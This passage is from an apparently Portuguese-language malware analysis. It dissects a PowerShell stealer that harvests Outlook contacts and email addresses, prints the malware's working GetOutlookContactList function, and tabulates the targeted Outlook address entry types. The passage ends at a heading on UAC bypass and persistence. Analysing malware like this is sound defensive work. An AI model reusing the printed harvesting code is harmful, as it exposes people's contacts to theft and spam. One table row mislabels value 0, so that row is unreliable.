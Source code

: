 A intenção do ataque é roubar a lista de contatos, bem como endereços de e-mails trocados pelas vítimas, daqueles que utilizam a aplicação Outlook como ferramenta de e-mail.

Para entender melhor quais endereços são visados no ataque, podemos analisar a função GetOutlookContactList:

```
function GetOutlookContactList {
  $AddressLists = $OutlookAppMAPI.AddressLists
  for($i = 1; $i -le $AddressLists.Count; $i++) {
    $AddressEntry = $AddressLists.Item($i).AddressEntries
    for($j = 1; $j -le $AddressEntries.Count; $j++) {
      $AddressEntry = $AddressEntries.Item($j)
      $AddressEntryUserType = $AddressEntry.AddressEntriesUserType
      $Address = ""
      if ($AddressEntryUserType -eq 10) {
        $Address = $AddressEntry.Address
      } elseif (($AddressEntryUserType -eq 3) -Or ($AddressEntryUserType -eq 1) -Or ($AddressEntryUserType -eq 4) -Or ($AddressEntryUserType -eq 2) -Or ($AddressEntryUserType -eq 5) -Or ($AddressEntryUserType -eq 0)) {
        $Address = $AddressEntry.GetExchangeUser().PrimarySmtpAddress
      }
      AddAddressInGlobalList($Address)
    }
  }
}
```

Vemos que os alvos para [$AddressEntryUserType](https://msdn.microsoft.com/en-us/vba/outlook-vba/articles/addressentry-addressentryusertype-property-outlook) são: 10, 3, 1, 4, 2, 5 e 0.

Tais valores [correspondem](https://msdn.microsoft.com/en-us/vba/outlook-vba/articles/oladdressentryusertype-enumeration-outlook
) a:


| Value	|	Name									|	Description                                                    |
|-------|-------------------------------------------|------------------------------------------------------------------|
| 10    | olOutlookContactAddressEntry              | An address entry in an Outlook Contacts folder.                  |
| 3     | olExchangeAgentAddressEntry               | An address entry that is an Exchange agent.                      |
| 1     | olExchangeDistributionListAddressEntry    | An address entry that is an Exchange distribution list.          |
| 4     | olExchangeOrganizationAddressEntry        | An address entry that is an Exchange organization.               |
| 2     | olExchangePublicFolderAddressEntry        | An address entry that is an Exchange public folder.              |
| 5     | olExchangeRemoteUserAddressEntry          | An Exchange user that belongs to a different Exchange forest.    |
| 0     | olExchangeRemoteUserAddressEntry          | An Exchange user that belongs to the same Exchange forest.       |

#### Script 2: Bypass UAC & Persistência (?)

No entanto, ainda resta saber para qual endereço os e-mails obtidos são enviados, já que `$urlPL` não está definido no script:
